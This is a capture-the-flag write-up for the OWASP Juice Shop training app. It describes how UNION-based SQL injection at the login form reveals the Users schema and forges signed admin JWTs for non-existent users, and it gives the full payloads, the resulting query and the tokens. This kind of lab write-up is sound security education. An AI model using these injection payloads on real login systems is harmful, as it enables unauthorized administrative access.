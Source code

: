# Bonus Challenge: Generating a JWT Token for a Non-Existent User With Admin Privileges
*(It's not listed in the scoreboard as of 2019/08/21)*

## Description
I was attempting to complete the [Admin Registration (L3)](../../level-3#admin-registration) challenge, and while attempting that, I discovered a way to generate a JSON Web Token (JWT) for a non-existent user that had admin privileges.

## How?
### 1. Starting with SQL Injection
I was experimenting with SQL injection at the login page of the OWASP Juice Shop, and was looking at trying to log in with my user, but instead of matching my user info that was in the database, I would copy most of that, and change the `isAdmin` flag. The only way I could think to do this was using a `UNION` or `UNION ALL` in my SQL injection.

Early on, I ran into a lot of issues with the columns from the `UNION` not matching up, like below. I don't know the schema at this point (and I'm intentionally not looking it up because I'm trying to emulate an attacker).

<img src="images/nonexistent-user-admin-token-sql-union-error.png">

### 2. Getting the User Table Schema
I found that there was 2 ways get the schema. One of the explicitly tells you the schema, and the other you can infer the schema from.

#### 2a. Explicit: Get the Schema via SQL Injection
So, at this point, I needed to find how to get the schema. The way I initially did it was looking at if I could get the endpoint to output the schema as one of the fields. Since the errors I got were from SQLite, a few quick google searches told me how to [get the columns for a table](https://stackoverflow.com/a/54962853), and [concat them into a single value](https://stackoverflow.com/a/3926380). So, I started with this:

```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null)--
```

For the one above, I got the column mismatch again, but the syntax was valid and no issues with functions not existing. I kept adding `null`s one at time to the end of it until that didn't happen. Eventually, I got up to 11 `null`s (in addition to the subquery `SELECT`).

**Initial Injection Payload - Column Names**
```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null, null, null, null, null, null, null, null, null, null, null)--
```

Once I clicked the submit button, I got presenting with a 2FA page. Progress!

<img src="images/nonexistent-user-admin-token-2fa.png">

From there I looked at the token that I got back in the requests, and it was another JWT token.

**2FA JWT Token - Column Names**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJpZCx1c2VybmFtZSxlbWFpbCxwYXNzd29yZCxpc0FkbWluLGxhc3RMb2dpbklwLHByb2ZpbGVJbWFnZSx0b3RwU2VjcmV0LGlzQWN0aXZlLGNyZWF0ZWRBdCx1cGRhdGVkQXQsZGVsZXRlZEF0IiwidHlwZSI6InBhc3N3b3JkX3ZhbGlkX25lZWRzX3NlY29uZF9mYWN0b3JfdG9rZW4iLCJpYXQiOjE1NjU5Njk1ODEsImV4cCI6MTU2NTk4NzU4MX0.FSDMBOs2C20Eqb-c_PghsbQ7dUiHpwQe5qrLsllp2W41Wg6MVpFXPTMY0gB0HGFI4Deeun6Iw7B5a2yy5Pb339wXfZLCHisXpmfS08i2pxsd_N70wvzqUZtrjALvardSB3_FCh9St1c5oAQOuqlq7EDGvFymFtiPdNz8-4DR6BE
```

Once I decoded it, I found the schema below.

<img src="images/nonexistent-user-admin-token-column-name-token.png">

Neat. Though I realized that the schema it looked EXACTLY like the user data in the a normal JWT token from this application, which brings me to the other way to figure out the schema.

#### 2b. Inference: Look at a Normal JWT Token
In the [Password Strength (L2)](../../level-2#password-strength) challenge, I found the admin account's password in the JWT token, and this is what the JWT token looks like when it is decoded.

**Normal JWT Token for a Logged-In User**
<img src="../../level-2/images/2-admin-password-jwt.png">

Hey, it's literally all of the table fields as the SQL injection way in 2a. Let's move on.

### 3. Generating the Non-Existent User's Token with Admin Privileges

So, at this point, I took the fields in the schema list, and filled them **in the same order** so the `UNION` would match up with the column list from `SELECT * FROM Users` login SQL query. You also need to switch `true` and `false` values to 1 and 0, respectively (but maybe that's a relic from my days using MSSQL). After you update the `isAdmin` value to `1` (or `true`), it should look like this:

**Injection Payload - Generate Admin Token**
```
' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'someone@something.io' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '172.16.189.1' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

And here is the SQL query that the server will run (formatted and prettified)
```sql
SELECT * 
FROM  users 
WHERE  email = '' 

UNION

SELECT * 
FROM ( 
  SELECT 15                          AS 'id', 
  ''                                 AS 'username', 
  'someone@something.io'             AS 'email', 
  'b4448762fc877c2d57b2c9723118d264' AS 'password', 
  1                                  AS 'isAdmin',
  '172.16.189.1'                     AS 'lastLoginIp' , 
  'default.svg'                      AS 'profileImage', 
  ''                                 AS 'totpSecret', 
  1                                  AS 'isActive', 
  '2019-08-16 14:14:41.644 +00:00'   AS 'createdAt', 
  '2019-08-16 14:33:41.930 +00:00'   AS 'updatedAt', 
  NULL                               AS 'deletedAt'
)
--AND password = 'b4448762fc877c2d57b2c9723118d264' AND deletedAt IS NULL 
```

My injection payload worked! I got to the main search page and I was logged in as my *faux* user. My user did exist at this point, but this all works even if the user does not exist. I took at look at my JWT token in my cookie / application settings.

**Non-Existent User JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJzb21lb25lQHNvbWV0aGluZy5pbyIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjE3Mi4xNi4xODkuMSIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjE0OjQxLjY0NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjMzOjQxLjkzMCArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1NjU5NzE5NDcsImV4cCI6MTU2NTk4OTk0N30.OhfHXsnCteRB-LSuTxucIeV59paLJs7gzjqi5DMm0-84UIuvmIXdzChDsLGsfgzYXSxkTwtyzWpla8z-xAsxVnKLiNUr7noQde6yklK8Pw1YXLKFcz2Olga7Yra5ezfIWv3-OxKTUxZgdQsoi7kdOl2wWtH8bJxUXsGUTStkre0
```

Once you decode that token, it looks like this:

<img src="images/nonexistent-user-admin-token-decoded.png">

Boom! I'm an admin that doesn't exist! To finish this off, I went to the administration page to find out if this worked, and it does! Yay!

<img src="images/nonexistent-user-admin-token-admin-page.png">

### Differences from the Current SQL Injection Challenges
All of the challenges want you to log in as an existing user (or it mentions NOT to use SQL injection).

### Differences from the Current JWT Challenges

There are 2 different JWT challenges. They both mention that the token should be unsigned or almost properly signed, but I actually have a properly signed JWT token now. Hmm... Let's try using this method and see if we complete the challenges.

> **JWT Issues Tier 1 (T5)**
>
> Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.

```
' UNION SELECT * FROM (SELECT 1001 as 'id', '' as 'username', 'jwtn3d@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**jwtn3d@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTAwMSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6Imp3dG4zZEBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjAuMC4wLjAiLCJwcm9maWxlSW1hZ2UiOiJkZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDoxNDo0MS42NDQgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDozMzo0MS45MzAgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNTY1OTc3NTEzLCJleHAiOjE1NjU5OTU1MTN9.yIlgAEaeL7sgF-rjoU1wTmZMmBpz1Zr2KIl5wbkcDCkRhi-Tc9H-FNBocaOMGYpIwmoMUfLpCaWxlC_qcDZLlvGRArdS0-svgOKwUujxLTrJhbqQIYsTmEkTMruNFYhRgrCijFhnYsOyqqWDSlW_n1NyRUYtMgtAMIezVl4UAuE
```
Challenge not complete even with the above token!

> **JWT Issues Tier 2 (T6)**
>
> Forge an almost properly RSA-signed JWT token that impersonates the (non-existing) user rsa_lord@juice-sh.op.

**Injection Payload**
```
' UNION SELECT * FROM (SELECT 999 as 'id', '' as 'username', 'rsa_lord@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**rsa_lord@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OTk5LCJ1c2VybmFtZSI6IiIsImVtYWlsIjoicnNhX2xvcmRAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImI0NDQ4NzYyZmM4NzdjMmQ1N2IyYzk3MjMxMThkMjY0IiwiaXNBZG1pbiI6dHJ1ZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MTQ6NDEuNjQ0ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MzM6NDEuOTMwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTU2NTk3NzI3MywiZXhwIjoxNTY1OTk1MjczfQ.uOxQ5gPiTT-MCmGsgOE0NodOG77UqSRizHbsD-tvjt8X73V8SDkXfxFRQ4kjf3O1iyzK2BmWsrMk66GILz7HT5nNvEhdGHT9nTA5nBjXncCEy13xnNAwfi8qyJO8SMLCyCnMrx4RtC0X3VbY6kR2aJ7F5FL6q8V6Qp_4SO2SLeo
```
Challenge not complete even with the above token!

So, its doesn't match either of these challenges, which makes sense. Yay! I found a way to get a legit token for a non-existent user. 

